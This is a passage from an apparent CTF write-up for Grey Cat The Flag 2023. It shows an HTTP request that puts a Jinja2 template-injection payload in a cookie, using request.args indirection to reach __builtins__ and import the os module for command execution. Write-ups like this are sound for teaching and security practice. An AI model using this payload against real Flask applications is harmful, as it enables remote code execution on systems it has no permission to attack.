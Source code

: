 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521125507.png)

**After getting the `__builtins__` attribute, we can now use `__import__` method to import any module!! Let's import the `os` module to execute OS command!**
```http
GET /?service=adminpage&a=application&b=__globals__&c=__getitem__&d=__builtins__&e=__getitem__&f=__import__&g=os HTTP/1.1
Cookie: user={{request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)|attr(request.args.e)(request.args.f)(request.args.g)}}
```

